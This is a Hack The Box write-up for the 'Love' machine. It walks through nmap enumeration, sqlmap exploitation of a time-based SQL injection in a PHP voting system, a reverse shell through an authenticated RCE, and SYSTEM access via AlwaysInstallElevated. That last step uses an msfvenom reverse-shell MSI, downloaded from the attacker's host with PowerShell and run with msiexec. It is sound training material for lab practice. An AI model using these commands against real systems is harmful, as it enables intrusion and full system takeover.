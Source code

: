 ```yaml
---
layout: post
title: Love
published: false
---
```


**Love is an easy machine from Hack The Box.**

### Enumeration

First step, as always, is to scan the target with `nmap`:

`nmap -sC -sV -oN enum/nmap -v -p- 10.10.10.239`

```
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)  ## PHP voting system
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Voting System using PHP
135/tcp   open  msrpc        Microsoft Windows RPC                                ##
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn                        ## Nothing from nbtscan
443/tcp   open  ssl/http     Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)      ## 403
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Issuer: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-01-18T14:00:16
| Not valid after:  2022-01-18T14:00:16
| MD5:   bff0 1add 5048 afc8 b3cf 7140 6e68 5ff6
|_SHA-1: 83ed 29c4 70f6 4036 a6f4 2d4d 4cf6 18a2 e9e4 96c2
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?
| fingerprint-strings: 
|   NULL, WMSRequest: 
|_    Host '10.10.14.22' is not allowed to connect to this MariaDB server
5000/tcp  open  http         Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
5986/tcp  open  ssl/http     Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
| ssl-cert: Subject: commonName=LOVE
| Subject Alternative Name: DNS:LOVE, DNS:Love
| Issuer: commonName=LOVE
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-11T14:39:19
| Not valid after:  2024-04-10T14:39:19
| MD5:   d35a 2ba6 8ef4 7568 f99d d6f4 aaa2 03b5
|_SHA-1: 84ef d922 a70a 6d9d 82b8 5bb3 d04f 066b 12f8 6e73
|_ssl-date: 2021-07-02T13:25:42+00:00; +26m47s from scanner time.
| tls-alpn: 
|_  http/1.1
7680/tcp  open  pando-pub?
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.91%I=7%D=7/2%Time=60DF0CE0%P=x86_64-pc-linux-gnu%r(NUL
SF:L,4A,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.22'\x20is\x20not\x20allowe
SF:d\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(WMSRequest,4A
SF:,"F\0\0\x01\xffj\x04Host\x20'10\.10\.14\.22'\x20is\x20not\x20allowed\x2
SF:0to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows
```

A lot of open ports, but starting with the web servers is usually a safe bet.

![Pasted image 20210702075723](https://user-images.githubusercontent.com/60187707/128602650-334f21f7-db5e-4f00-906c-1548e6233898.png)

Port 80 is a "voting system". I can't get into the login but enumerating directories reveals some more options.

`gobuster dir -u http://10.10.10.239 -w /usr/share/wordlists/dirb/common.txt -o enum/gobuster.out`

### Exploitation

After looking at some of the available web pages, http://10.10.10.239/admin/includes/footer.php provides a hint about the CMS behind the website.

![Pasted image 20210714102248](https://user-images.githubusercontent.com/60187707/128603607-cdbd77ce-e2ba-4185-8742-3977c724225a.png)

Doing some googling turns up a possible [SQLi vulnerability](https://www.exploit-db.com/exploits/49817). I capture a login request in Burpsuite, save it, and pass that file to `sqlmap` to enumerate the DB.

`sqlmap --dbms=mysql --batch --level=1 --risk=3 -r voter.req -p voter --dump-all`

This being a time-based SQLi, it's an extremely slow process. There are a few different databases, but `votesystem` may be the one that I want. I'll only dump that one for the moment.

`sqlmap --dbms=mysql --batch --level=1 --risk=3 -r voter.req -p voter --dump votesystem`

```
+----+-----------------------------+----------+--------------------------------------------------------------+----------+-----------+------------+
| id | photo                       | lastname | password                                                     | username | firstname | created_on |
+----+-----------------------------+----------+--------------------------------------------------------------+----------+-----------+------------+
| 1  | facebook-profile-image.jpeg | Devierte | $2y$10$4E3VVe2PWlTMejquTmMD6.Og9RmmFN.K5A1n99kHNdQxHePutFjsC | admin    | Neovic    | 2018-04-02 |
+----+-----------------------------+----------+--------------------------------------------------------------+----------+-----------+------------+
```

After about 30 minutes, I've gotten an admin hash! In the course of searching for exploits, I also found an [authenticated RCE](https://www.exploit-db.com/exploits/49445) exploit. I wasn't able to crack the hash with `hashcat` or `john`, so I'll have to just use the hash to authenticate.

![Pasted image 20210714112518](https://user-images.githubusercontent.com/60187707/128603066-6a2717a5-2a1e-4e80-8144-fbae76fd4a47.png)

Trigger the exploit:

![Pasted image 20210714112434](https://user-images.githubusercontent.com/60187707/128603086-40d463d2-6545-47f7-b40d-7b2b7a0cb82c.png)

Catch the shell on my listener, and I have a shell on the target as `phoebe`:

![Pasted image 20210714112448](https://user-images.githubusercontent.com/60187707/128603106-0597ab46-12bb-40a2-ab4b-e09812404bab.png)

### Privilege Escalation

For priv esc on Windows, I like to use AonCyberLab's [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester). All it requires is the output from the Windows target's `systeminfo` copied into a file on my local machine.

The script can pull down the most recent Microsoft vulnerability database, so I'll do that first: `python windows-exploit-suggester.py --update`

Then run the script:

`python windows-exploit-suggester.py --database 2021-07-14-mssb.xls --systeminfo love-sysinfo.txt`

The script points out that the registry `AlwaysInstallElevated` is set to 1 for `HKCU`(current user) and `HKLM`(local machine). This should allow me to install `.msi` packages as `SYSTEM`.

I'll build a malicious `.msi` file containing a reverse shell with `msfvenom`:

`msfvenom -p windows/x64/shell_reverse_tcp lhost=10.10.14.22 lport=4444 -f msi > root.msi`

Download the file to the target with Powershell, after serving the file on my own web server: `powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.22/root.msi','root.msi')"`

And execute the file: `msiexec /quiet /qn /i root.msi`

![Pasted image 20210714121312](https://user-images.githubusercontent.com/60187707/128603535-c6302a4a-6ace-43cb-b419-229ce14fa31f.png)

Just like that, I have a second reverse shell as `NT AUTHORITY\SYSTEM`.

![Pasted image 20210714121354](https://user-images.githubusercontent.com/60187707/128603573-43030ba5-cf94-4e3c-a700-1a53e88a6e8b.png)







